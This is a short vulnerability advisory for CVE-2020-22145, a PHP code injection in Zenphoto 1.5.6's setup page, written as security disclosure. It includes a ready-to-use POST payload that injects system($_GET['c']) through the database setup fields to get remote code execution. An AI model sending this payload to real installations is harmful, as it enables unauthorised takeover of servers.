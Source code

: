 ```yaml
---
cve: "CVE-2020-22145"
title: "Code injection in Zenphoto v1.5.6 and prior"
date: 2020-02-11
tags:
- cve
- code injection
- rce
---
```

A PHP code injection vulnerability in `/zp-core/setup/index.php` of Zenphoto 1.5.6 allows attackers to execute arbitrary code.

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22145

<hr />

**Description:**  
The installation process is prone to PHP code injection which leads to a remote code execution.

**Details:**  
File: `/zp-core/setup/index.php`  
Parameters: `db_software`, `db_user`, `db_pass`, `db_host`, `db_database`  
URL: `/zp-core/setup/`

**Payload:**  
```
POST /zp-core/setup/
db=yes&xsrfToken=490edd5bf985248c832425d350602f5bb1c8043d&db_software=MySQLi%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_user=test%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_pass=test&db_host=localhost%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_database=zenphoto%22%3Bsystem%28%24_GET%5B%27c%27%5D%29.%22&db_prefix=zp_
```

**Recommendation:**  
A simple addslashes would do the trick to protect against single and double quotes.

**PoC:**  
![cve-2020-22145](/images/cve-2020-22145.png)
